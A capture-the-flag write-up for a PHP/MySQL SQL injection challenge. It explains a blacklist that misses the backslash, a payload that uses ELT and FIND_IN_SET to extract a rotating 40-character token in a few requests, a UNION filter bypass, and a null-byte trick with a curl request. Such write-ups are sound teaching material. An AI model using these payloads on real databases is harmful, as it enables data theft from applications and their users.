 ## Writeup
### Intended solution
The give patch shows that some security mechanism were added. One of them was a blacklist that filters some chracters in the search string:
```php
$blacklist = array('\'', '"', '/', '*');
return str_replace($blacklist, '', $input);
```
But this sanitize function is incomplete and doesn't filter the backslash character, which allows us to escape the last single quote where the search query is inserted, like so:
```MySQL
WHERE first_name='injection here and escape last quote like so # \'
OR last_name='injection here and escape last quote like so \'
ORDER BY id ASC LIMIT 5
```

This allows us to do a SQL injection, but the problem is that we couldn't use 'union' because it is being detected and and exception is thrown (or not, see the unintended solution section).
Another limitation is the 'LIMIT 5' at the end, which we can't bypass because there is a newline between the injection and the limit statement and we can only perform single line comments (or not, see the second unintended solution).

Furthermore, the patch also introduces as token which changes after every 10 requests, that means that we have to perform an injection that allows us to extract the token in less than 10 requests.
It was also possibel to retrieve a database dump from the students, by navigating to the panels section (it was hidden as a HTML comment), this dump will be usful for the final injection query.

How do we extract a 40 chracter string using the above injection in less than 10 tries?!

The idea is to create a mapping between user id (given as a search result) and a character in the string as well as the string position. For example, when the student with ID 1 is returned, that means that we have chracter 'a' at the first posiiton in the string, if student with ID 20 is returned that would mean that the second position in the string is an 'a'. This allows us to read 5 chracters at a time (with enough students to create the mapping).

This could be the mapping for the first position in the string, so if one of these IDs is returned we know which chracter is at the first position.
| 1 | 3 | 4 | 6 | 7 | 10 | 11 | 13 | 14 | 16 | 18 | 19 | 20 | 21 | 22 | 23|
|---|---|---|---|---|----|----|----|----|----|----|----|----|----|----|---|
| a | b | c | d | e | f  | 0  | 1  | 2  | 3  | 4  | 5  | 6  | 7  | 8  | 9 |

To do this kind of mapping in MySQL we can use the functions **ELT** and **FIND_IN_SET**

So our injection will look like this:
```
 OR id IN (<mapping right here>)
```

Here is what the mapping looks like from my exploit (for the first 5 chracters of the token):
```
 OR id IN (
 (select elt((select find_in_set((select substring(token, 1, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),1,2,3,4,5,6,7,8,9,11,12,14,16,17,20,24)),
 (select elt((select find_in_set((select substring(token, 2, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),25,26,27,31,32,33,34,35,36,37,38,39,40,41,42,43)),
 (select elt((select find_in_set((select substring(token, 3, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),44,45,46,47,48,49,50,51,52,53,55,56,57,58,59,60)),
 (select elt((select find_in_set((select substring(token, 4, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),61,62,63,64,66,67,69,70,71,72,73,74,75,76,77,78)),
 (select elt((select find_in_set((select substring(token, 5, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),79,80,81,82,83,84,85,89,90,91,92,93,94,95,96,97))
 ) # \
```

The above statement is one request and returns 5 chracters, we can repeat that 7 more times to get the rest of the 35 chracters.

### Unintended solution
Unfortunately there is also an unintended solution (which I didn't know about that that could actually work) which bypasses the union check.
It can be bypassed with some MySQL madness (I have no idea why this even works), which I didn't know about even existed, so something new is learned, but it made the challenge easier than expected :/

```
or 1=6e0union select 1,2,3 #\
```

I hope you still had fun working on it.

### Unintended solution 2
It was actually possible to bypass the 'LIMIT 5' by ending the payload with a null byte followed by the backslash because mysql_query() would interpret it as EOS.

```
MySQL
WHERE first_name='injection here and escape last quote like so \x00\'
OR last_name='injection here and escape last quote like so \x00\'
ORDER BY id ASC LIMIT 5
```
######Using cURL
```
curl -X POST --data "name= OR id=<injection>;%00\&site=default&action=search" <Website> 
```
Using this technique allowed the output of 160 ids at the time, making the challenge possible to solve in a single request with the "intended" way using mapping.
